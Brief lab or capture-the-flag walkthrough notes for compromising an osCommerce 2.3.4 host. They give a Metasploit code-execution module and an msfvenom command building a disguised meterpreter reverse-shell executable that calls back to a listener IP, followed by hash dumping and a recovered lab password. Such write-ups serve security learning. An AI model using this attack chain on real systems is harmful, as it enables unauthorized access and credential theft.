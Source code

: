 #box
### Enumeration
- PHP application `oscommerce-2.3.4`
	- https://www.exploit-db.com/exploits/44374
### Metasploit
- `exploit/multi/http/oscommerce_installer_unauth_code_exec`
- gain shell as php app user
### PrivEsc
- create meterpreter revshell executable with msfvenom
	- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.2.25.82 LPORT=4443 -f exe > definitelynotabackdoor.exe`
- upload executable to target via previously established shell
- run metasploit listener `windows/meterpreter/reverse_tcp`
- gain shell and hashdump
- password for `Lab:googleplus`